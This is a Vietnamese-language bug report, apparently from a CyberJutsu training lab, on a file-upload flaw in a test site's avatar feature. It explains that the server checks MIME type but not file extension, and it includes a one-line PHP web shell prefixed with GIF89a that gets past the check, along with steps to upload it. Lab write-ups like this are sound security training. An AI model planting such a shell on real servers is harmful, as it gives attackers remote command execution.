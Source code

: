 ### Description

Tính năng upload avatar của trang [**Web-Main**](https://koinbase-ff27148a4.cyberjutsu-lab.tech) tại đường dẫn [/profile.php](https://koinbase-ff27148a4.cyberjutsu-lab.tech/profile.php) cho phép kẻ tấn công có thể upload các tập tin có chứa mã độc lên trang [**Web-Upload**](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech).

Lỗi được phát hiện tại API [/index.php](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech/index.php) của trang [**Web-Upload**](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech) 

### Impact

 - Lỗi tìm ẩn rủi ro rất cao khi kẻ tấn công có thể tìm ra cách để **RCE** khi  đã upload shell thành công lên máy chủ.

### Root Cause Analysis
 API [/index.php](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech/index.php) của trang [**Web-Upload**](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech) khi xử lý upload ảnh để kiểm tra file tải lên có phải là ảnh hay không dựa vào **MIME Type** mà không kiểm tra **file extension** do đó kẻ tấn công có thể tải lên tập tin chứa mã độc có phần mở rộng tùy ý như: **.PHP**, **PHTML** ...  

### Steps to reproduce

 1. Chuẩn bị file [**ava.png.php**](https://github.com/facetofate/cbjs-test/raw/main/ava.png.php) có chứa mã độc và [file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) như sau:
```
GIF89a<?php system($_GET["cmd"]); ?>
```
**GIF89a** => Bypass phần kiểm tra **MIME Type** hệ thống sẽ xem đây là file hình có định dạng **image/gif** .
 2. Gửi yêu cầu upload avatar lên [**Web-Upload**](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech) bằng cách gọi API [/index.php](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech/index.php).

![Upload ava.png.php thành công](https://raw.githubusercontent.com/facetofate/cbjs-test/main/img/KB-02-FU-up-ava-.JPG)

Tập tin [*/upload/14c78e3702622bb0.php*](https://upload.koinbase-ff27148a4.cyberjutsu-lab.tech/upload/14c78e3702622bb0.php) được upload thành công.
